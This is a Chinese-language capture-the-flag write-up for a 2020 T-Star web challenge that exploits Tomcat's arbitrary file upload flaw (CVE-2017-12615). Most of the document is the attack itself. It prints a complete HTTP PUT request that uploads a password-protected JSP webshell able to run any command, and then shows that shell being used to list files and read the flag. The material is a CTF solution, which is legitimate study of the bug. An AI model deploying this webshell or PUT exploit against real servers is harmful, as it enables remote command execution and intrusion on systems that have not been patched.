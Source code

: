 ```yaml
---
title: Web - 小猫咪踩灯泡
description: 2020-腾讯犀牛鸟网络安全-T-Star-高校挑战赛
---
```


## 解题思路

- 题目描述提到 tomcat 远程代码执行（CVE-2017-12615）
- 使用 BurpSuit 拦截网页的 GET 请求，并发送到 Repeater
- 构造 webshell 并发送<br>
    ```
    PUT /hack.jsp/ HTTP/1.1
    Host: f5b9bbe0.yunyansec.com
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Connection: close
    Upgrade-Insecure-Requests: 1
    If-Modified-Since: Thu, 20 Jun 2019 10:03:08 GMT
    If-None-Match: W/"5619-1561024988000"
    Cache-Control: max-age=0
    Content-Length: 660

    <%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp
    +"\\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();}%><%if("023".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd"))+"</pre>");}else{out.println(":-)");}%>
    ```
    ![构造 webshell](img/t_star_tomcat01.jpg)
- 此时可通过`http://f5b9bbe0.yunyansec.com/hack.jsp?&pwd=023&cmd=ls`远程查看文件目录下内容，发现`flag.txt`<br>
![找到 Flag 文件](img/t_star_tomcat02.jpg)
- `cat`一下即可获取 Flag<br>
![Catch the flag!](img/t_star_tomcat03.jpg)

## 参考资料

- [Tomcat 任意文件上传漏洞CVE-2017-12615复现测试](https://blog.csdn.net/qq1124794084/article/details/78044756)